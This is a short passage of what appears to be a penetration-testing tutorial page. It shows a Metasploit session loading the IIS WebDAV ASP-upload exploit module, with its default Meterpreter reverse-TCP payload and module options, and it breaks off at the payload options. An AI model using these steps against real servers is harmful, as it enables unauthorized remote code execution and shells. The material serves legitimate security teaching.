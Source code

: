 <img src="./assets/3.png"  />



<br />

---

#### **Exploiting WebDAV With Metasploit    **

**Metasploit  method1: using  `exploit/windows/iis/iis_webdav_upload_asp`**

```bash
msf6 > use exploit/windows/iis/iis_webdav_upload_asp
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/iis/iis_webdav_upload_asp) > options

Module options (exploit/windows/iis/iis_webdav_upload_asp):

   Name          Current Setting        Required  Description
   ----          ---------------        --------  -----------
   HttpPassword                         no        The HTTP password to specify for authentication
   HttpUsername                         no        The HTTP username to specify for authentication
   METHOD        move                   yes       Move or copy the file on the remote system from .txt -> .asp (Accepted: move, copy)
   PATH          /metasploit%RAND%.asp  yes       The path to attempt to upload
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                               yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         80                     yes       The target port (TCP)
   SSL           false                  no        Negotiate SSL/TLS for outgoing connections
   VHOST                                no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
```